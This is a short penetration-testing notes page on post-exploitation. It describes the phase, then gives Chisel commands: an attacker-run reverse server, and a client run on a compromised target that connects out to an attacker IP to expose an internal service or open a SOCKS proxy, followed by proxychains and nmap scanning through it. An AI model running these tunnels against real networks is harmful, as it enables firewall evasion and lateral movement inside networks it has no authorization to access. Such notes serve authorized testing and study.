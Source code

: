 ```yaml
---
description: This page contains notes on post-exploitation
layout:
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# Post Exploitation

### About Post Exploitation

Post-exploitation refers to the phase of a cybersecurity attack that occurs after an attacker has successfully compromised a target system. During this phase, the attacker aims to maintain access, gather valuable information, escalate privileges, and potentially launch further attacks. It involves activities such as lateral movement within the network, data exfiltration, creating backdoors, and covering their tracks to avoid detection. Post-exploitation is a crucial part of the attack lifecycle as it allows the attacker to maximize the impact of their initial compromise and achieve their ultimate objectives.

### Tunneling with Chisel

Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. Written in Go (golang). Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network.

#### Exposing Internal Service

* [https://github.com/jpillora/chisel](https://github.com/jpillora/chisel)

On attacker machine, run this command:

```bash
chisel server -p 2525 --socks5 --reverse -v
```

Example, on target there is service running on port 8000 at localhost, then run this command:

```bash
./chisel client 10.10.14.46:2525 R:8001:127.0.0.1:8000
```

Now, we can access the service from port 8001 on our machine.

#### Scanning Internal Server / IP

From attacker machine, run chisel server.

```
./chisel server -p 31337 --socks5 --reverse -v
```

From Client:&#x20;

```
./chisel client 10.10.200.13:31337 R:31338:socks
```

Now, from attacker machine, add proxy to proxychains4.conf

```
socks5 127.0.0.1 31338
```

Now you can scan internal target IP from attacker machine.

```
proxychains4 nmap 192.168.1.337
```

{% content-ref url="../linux/linux-post-exploitation.md" %}
[linux-post-exploitation.md](../linux/linux-post-exploitation.md)
{% endcontent-ref %}

{% content-ref url="../active-directory/ad-post-exploitation.md" %}
[ad-post-exploitation.md](../active-directory/ad-post-exploitation.md)
{% endcontent-ref %}
